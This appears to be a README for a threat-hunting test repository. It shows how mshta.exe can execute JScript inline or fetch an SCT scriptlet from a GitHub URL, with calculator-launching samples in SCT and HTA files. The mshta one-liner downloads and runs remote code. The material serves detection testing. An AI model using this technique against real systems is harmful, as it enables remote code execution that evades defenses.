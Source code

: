 # TestThreatHunting
Using mshta.exe to preform scripts inline or from a URL

Test the following:
* mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/0xMo/TestThreatHunting/main/PS1.sct')).Exec();close();
  - The will run a script from a URL to run calculator.
- Save the content of the file **MaliciousHTA.hta** locally and double click it to run a calculator
- 

# Files
<h3>What is SCT file extension</h3>

Component Object Model (COM) is a software component of windows as they store the scripts of software products installed on the user machine. This script includes (VBScript, JavaScript, or JScript, etc.), this unmanaged codes are stored in .SCT format.

<h3>What is HTA file extension</h3>

HTML Application (HTA) files have the file extension hta.HTA's are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.

<h3>List of files</h3>

- Hello.sct:
  - This files contains a HTML code saved in SCT file that will run a calculator
- MaliciousHTA.hta:
  - This files contains a HTML code saved in HTA file that will run a calculator
- PS1.sct:
  - Contains a XML code with JScript that will run calculator
- 
